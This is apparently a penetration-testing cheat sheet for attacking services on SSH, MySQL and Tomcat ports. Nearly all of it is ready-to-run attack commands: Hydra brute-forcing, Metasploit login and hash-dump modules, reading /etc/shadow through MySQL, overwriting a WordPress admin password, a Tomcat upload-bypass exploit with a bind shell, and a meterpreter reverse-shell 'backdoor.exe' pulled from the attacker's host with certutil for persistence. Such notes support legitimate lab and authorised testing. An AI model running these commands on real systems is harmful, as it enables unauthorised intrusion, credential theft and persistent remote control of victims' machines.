 # Windows - Enum/Exploitation

## 22 - OpenSSH

<pre><code># CHECK THE VERSION
<strong>searchsploit openssh VERSION
</strong></code></pre>

<pre class="language-bash" data-full-width="false"><code class="lang-bash"><strong># Nmap enum
</strong>nmap -sV -sC -p 22 IP

# Search exploit for current version
searchspoilt OpenSSH 7.1

# Hydra SSH Brute-forcing
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt IP ssh -I
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt IP ssh -I
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt IP ssh -I

# SSH connection with creds
ssh USER@IP
PASS

</code></pre>

{% code title="Metasploit SSH enumeration" %}
```bash
service postgresql start && msfconsole

search type:auxiliary name:ssh

use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_enumusers
use auxiliary/scanner/ssh/ssh_login

set RHOSTS IP
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```
{% endcode %}





## 80/443 - HTTP/S

{% content-ref url="../web/" %}
[web](../web/)
{% endcontent-ref %}



## 389 - LDAP

{% content-ref url="../../../active-directory-pt/ad-enumeration/ldap.md" %}
[ldap.md](../../../active-directory-pt/ad-enumeration/ldap.md)
{% endcontent-ref %}





## 445  - SMB

{% content-ref url="port-445-smb.md" %}
[port-445-smb.md](port-445-smb.md)
{% endcontent-ref %}



## 1433 - MSSQL Database

{% content-ref url="port-1433-mssql.md" %}
[port-1433-mssql.md](port-1433-mssql.md)
{% endcontent-ref %}



## 3306 - MySQL Database

```
# CHECK THE VERSION
searchsploit mysql VERSION
```

```bash
# Nmap
nmap -sC -sV -p 3306 IP
nmap --script=mysql-empty-password -p 3306 IP
nmap --script=mysql-info -p 3306 IP

# w/ creds
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 IP
nmap --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" -p 3306 IP
nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p 3306 IP
nmap --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" -p 3306 IP
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 IP
nmap --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''" -p 3306 IP

# Search exploit for current version
searchspoilt MySQL 5.5
```

### DB connection

<pre class="language-bash"><code class="lang-bash"><strong># MySQL connection
</strong>mysql -u USER -p -h IP

# MySQL commands
show databases;
use DB_NAME;
show tables;
select * from TABLE_NAME
select load_file("/etc/shadow");

# Database creds location
## Server php
PATH/TO/wp-config.php
</code></pre>

```bash
# Hydra MySQL Brute-forcing
hydra -l USER -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql
```



{% code title="Metasploit" %}
```bash
## Start msfconsole
service postgresql start && msfconsole

# ENUM MySQL Modules
use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_writable_dirs
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login

## set options depends on the selected module
set USERNAME root
set PASSWORD ""

set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE false
set PASSWORD ""

set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""

set USER_FILE /root/Desktop/wordlist/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true

set CMD whoami
exploit
```
{% endcode %}

{% code title="Explotation" %}
```bash
# once we are in a db
# search user table
show databases;
use wordpress; # use speific db
show tables; # view tables
select * from wp_users; # print table data

# look the format of password (md5, sha256, ...)
# update password of admin user
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';


```
{% endcode %}





## 8080

```
# CHECK THE VERSION
searchsploit SERVICE VERSION
```

### Apache Tomcat 8.5.19

```bash
service postgresql start && msconsole

use exploit/multi/http/tomcat_jsp_upload_bypass
set RHOST
set payload java/jsp_shell_bind_tcp
set SHELL cmd
run
```

#### Persistence payload

```bash
# create payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe

# transfer payload
python -m SimpleHTTP 80 # attack machine
certutil -urlcache -f http://IP_ATT/backdoor.exe backdoor.exe # target machine

# set handler
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST IP
set LPORT PORT
run

# execute payload on target machine
.\backdoor.exe
```

